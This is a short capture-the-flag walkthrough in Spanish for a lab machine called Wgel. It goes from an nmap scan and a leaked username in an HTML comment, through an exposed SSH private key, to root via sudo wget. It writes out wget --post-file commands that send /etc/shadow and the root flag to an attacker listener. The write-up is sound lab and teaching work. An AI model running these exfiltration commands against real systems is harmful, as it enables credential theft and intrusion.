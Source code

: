 # Wgel
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
### HTTP 
En el source de la main page
```
 <!-- Jessie don't forget to udate the webiste -->
 ```
 Un user tal vez
 #### Gobuster 
 ```
 /sitemap (Status: 301)
 /sitemap/.ssh/ (Status: 301)
```

El segundo parece interesante , si accedemos vemos una clave RSA 

Tenemos una clave , tenemos un user , podriamos entrar?

## Privesc

Entramos como jessie y podemos leer la flag del user, veamos como escalar
```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wgetfi
```
Sin password solo wget , por suerte es bien conocido que con wget tenemos arbitrary file read/write

```
 sudo /usr/bin/wget --post-file=/etc/shadow IP:1234
```
Obtenemos el shadow y intentamos crackear el hash, aunque la way que se busca por lo visto es la siguiente
```
 sudo /usr/bin/wget --post-file=/root/root_flag.txt IP:1234
```
 
# Analisís de la intrusión
### Sensible data leak
La clave SSH de el usuario jessie esta expuesta en el servidor por una mala congiguracion
### Privileged wget execution
La ejecución privilegiada de wger permite exfiltrar archivos de manera arbitraria si se consigue acceso a el usuario
